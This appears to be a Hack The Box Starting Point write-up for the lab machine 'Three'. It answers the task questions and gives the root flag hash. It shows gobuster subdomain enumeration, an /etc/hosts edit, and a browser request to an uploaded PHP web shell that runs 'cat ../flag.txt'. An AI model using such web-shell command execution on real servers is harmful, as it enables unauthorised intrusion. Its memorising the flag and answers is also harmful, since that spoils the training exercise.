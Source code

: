 #### How many TCP ports are open?
2

#### What is the domain of the email address provided in the "Contact" section of the website?
thetoppers.htb

#### In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames?
/etc/hosts

#### Which sub-domain is discovered during further enumeration?
s3.thetoppers.htb

#### Which service is running on the discovered sub-domain?
amazon s3

#### Which command line utility can be used to interact with the service running on the discovered sub-domain?
awscli

#### Which command is used to set up the AWS CLI installation?
aws configure

#### What is the command used by the above utility to list all of the S3 buckets?
aws s3 ls

#### This server is configured to run files written in what web scripting language?
php

#### Submit root flag
a980d99281a28d638ac68b9bf9453c2b




In the browser we open the follow link: http://thetoppers.htb/shell.php?cmd=cat+../flag.txt


``` bash
┌─[ramdark@parrot]─[~/Documents/Hacking_Notes_RFC/HTB/StartPoint/Three]
└──╼ $gobuster vhost -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://thetoppers.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2023/06/01 02:45:11 Starting gobuster in VHOST enumeration mode
===============================================================
Found: s3.thetoppers.htb (Status: 404) [Size: 21]
Found: gc._msdcs.thetoppers.htb (Status: 400) [Size: 306]
                                                         
===============================================================
2023/06/01 02:45:56 Finished
===============================================================
┌─[ramdark@parrot]─[~/Documents/Hacking_Notes_RFC/HTB/StartPoint/Three]
└──╼ $echo "10.129.227.248 s3.thetoppers.htb" | sudo tee -a /etc/hosts
[sudo] password for ramdark: 
10.129.227.248 s3.thetoppers.htb
┌─[ramdark@parrot]─[~/Documents/Hacking_Notes_RFC/HTB/StartPoint/Three]
└──╼ $


``` 
